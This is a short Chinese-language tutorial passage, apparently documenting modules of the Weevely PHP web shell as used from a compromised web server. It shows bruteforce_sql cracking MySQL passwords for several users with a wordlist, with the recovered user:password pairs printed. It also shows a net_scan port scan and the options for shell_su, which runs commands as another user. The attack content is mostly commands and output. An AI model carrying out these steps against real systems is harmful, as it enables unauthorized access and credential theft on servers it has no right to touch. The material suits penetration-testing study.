 ## bruteforce\_sql

使用 bruteforce\_sql 猜解密码。

```shell
www-data@target:/var/www/html PHP> :bruteforce_sql mysql -users roblast micjanost pjgomes pdpeers root -fpwds wordlists/huge.txt  #制定了多个用户和一个字典
roblast:reckoned
pjgomes:national
root:Gilchrist
www-data@target:/var/www/html PHP>
```
同时爆破多个用户的密码。

## net\_scan

通过 `:net_scan <addresses> <ports>` 使用模块。

```shell
www-data@localhost:/var/www/html PHP> :net_scan localhost 70-90
Scanning addresses localhost-localhost:70-74
Scanning addresses localhost-localhost:75-79
Scanning addresses localhost-localhost:80-84
Scanning addresses localhost-localhost:85-89
Scanning addresses localhost-localhost:90-90
+--------------+
| localhost:80 |
+--------------+
www-data@localhost:/var/www/html PHP> 
```

## shell\_su

```shell
weevely> :shell_su
error: the following arguments are required: passwd, command
usage: shell_su [-h] [-user USER] [-stderr_redirection STDERR_REDIRECTION]
                [-vector-sh {system,passthru,shell_exec,exec,popen,proc_open,perl_system,pcntl}]
                [-vector {sh_expect,pyexpect}]
                passwd command [command ...]

Execute commands with su.

positional arguments:      //位置参数（必须）
  passwd                User's password
  command               Shell command

optional arguments:      //可选参数
  -h, --help            show this help message and exit
  -user USER            User to run the command with
  -stderr_redirection STDERR_REDIRECTION
  -vector-sh {system,passthru,shell_exec,exec,popen,proc_open,perl_system,pcntl}
  -vector {sh_expect,pyexpect}
```
